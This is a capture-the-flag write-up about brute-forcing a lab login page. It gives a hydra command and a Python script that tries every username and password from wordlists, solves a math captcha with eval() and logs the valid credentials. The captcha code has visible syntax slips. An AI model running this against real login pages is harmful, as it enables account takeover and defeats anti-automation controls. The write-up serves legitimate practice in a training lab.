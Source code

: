 # 🔐 Brute Force Authentication Explained (Step-by-Step) 💥 - Freddy

![alt text](<Screenshot From 2025-04-20 23-45-23.png>)

My first initial thought as soon as I unziped the zip file was its definetly a brute force attack. So I ran the bellow script:

`sudo hydra -L usernames.txt -P passwords.txt 10.10.139.225 http-post-form "/login:username=^USER^&password=^PASS^:Error" -v -t 40`

![alt text](<Screenshot From 2025-04-21 00-24-17.png>)

I was not prepared to wait. I reloaded the website. It presented me with this:

![alt text](<Screenshot From 2025-04-21 00-28-31.png>)

This script tries to brute force login by using the username & password combos to break into a login page that also has a simple math captcha. Here's what it does 👇

---

## 1️⃣ Load Wordlists and the URL

📂 The room provides with a zip file with the users and the passwords txt to brute force with:
- `usernames.txt` ➝ A list of usernames to try
- `passwords.txt` ➝ A list of passwords to try

```
url = 'http://10.10.139.225/login'
usernames = open('usernames.txt', 'r')
passwords = open('passwords.txt', 'r') 
```

Each line is read one at a time.

---

## 2️⃣ Try Every Username

🔁 For each username:
- Clean it up (remove the newline `\n`)
- Go back to the start of the password list (so you can try all passwords again)

```
for username in usernames:
  username = username.strip('\n')
  passwords.seek(0)
```

---

## 3️⃣ Try Every Password

🔁 For each password:
- Also clean it up (remove the newline)
```
for password in passwords:
    password = password.strip('\n')
```

---

## 4️⃣ Solve the Captcha 🤔➕➖✖️

💡 Before sending login data:
- The script **requests the login page**
- It **reads the HTML**
- It finds the **math captcha** (e.g. "5 + 9 =")
- It **solves** the math using Python's `eval()` function

```
session = requests.Session()
    response = session.get(url)
    data = {'username': username,
            'password': password}
    response = session.post(url, data = data)
    soup = BeautifulSoup(response.text, 'html.parser')
    captcha_equation = soup.select_one('label[for="usr"]) + br').next_sibling.strip
    result = eval(captcha_equation.split("=")[0])
```
---

## 5️⃣ Send the Login Attempt 🚀

📝 It builds a form like this:

```
data = {'username': username,
            'password': password,
            'captcha': result}
response = session.post(url, data=data)
```
---

## 6️⃣ Output to the console and to log it✍️ 

```
print("[*] Attempting Password: %s for User: %s" % (password, username))
    if 'does not exist' not in response.text:
        print("[*]Username: %s is valid" % username)

        if 'Invalid password' not in response.text:
            print("[*]Password: %s is correct"% password)
            log = open('logs.txt', 'w')
            log.write(username +" "+ password)
            exit()
        else:
            print("[*]The Password is invalid")
    else:
      break
```
## 7️⃣ Finally found the username and password

![alt text](<Screenshot From 2025-04-21 03-15-13.png>)

A small syntax error on the code but have corrected it.

## 8️⃣ Captured the flag successfully

![alt text](<Screenshot From 2025-04-21 03-08-07.png>)